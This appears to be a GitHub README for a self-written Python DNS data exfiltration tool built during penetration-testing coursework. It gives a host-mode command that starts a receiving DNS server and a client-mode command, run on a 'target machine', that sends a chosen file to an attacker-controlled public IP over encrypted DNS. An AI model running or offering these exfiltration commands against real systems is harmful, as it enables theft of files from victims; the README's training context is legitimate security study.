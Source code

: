 # A lightweight, easy-to-use, DNS data exfiltrator
As I was plowing through the INE eJPT course, I ran into a DNS data exfiltrator that I thought was annoying to use. So I rolled my own. This is the result. I am open to suggestions, critique and questions. I learned a lot from building this, about the DNS protocol and how data exfiltration works. I hope it'll benefit you in your (legal!) endeavors.

## Installation
Just clone/download the script from this Git repo

## Dependencies / Requirements
* Python 3.8+
* PyCryptodome: `pip3 install pycryptodome`

## Usage
The script can be run in two modes: host or client. The host mode should be used on your own machine, where the data is being exfiltrated to. The client mode should be run on your target's machine, where the data is being exfiltrated from. The data that is being exfiltrated is encrypted using AES256 symmetric encryption. It is therefore important that you set the same seed phrase or password on both the host and client.

### Host
Running the script in host mode will run a mock DNS server on udp/53 (by default, you can change the port if you want to) which is built specifically to receive exfiltrated data from the script in client mode. For example:
```
python3 dns-exfil.py -mode host -hostip "127.0.0.1" -password "my_secret_password_used_for_intransit_data_encryption"
```

### Client
On your target machine, copy-paste / install the script and run it. For example:
```
python3 dns-exfil.py -mode client -dest "your_public_machine_ip" -password "the_same_secret_password_as_set_on_the_host_script" -file "/path/to/the/file/you/want/to/exfil"
```

### More help
```
python3 dns-exfil.py -h
```
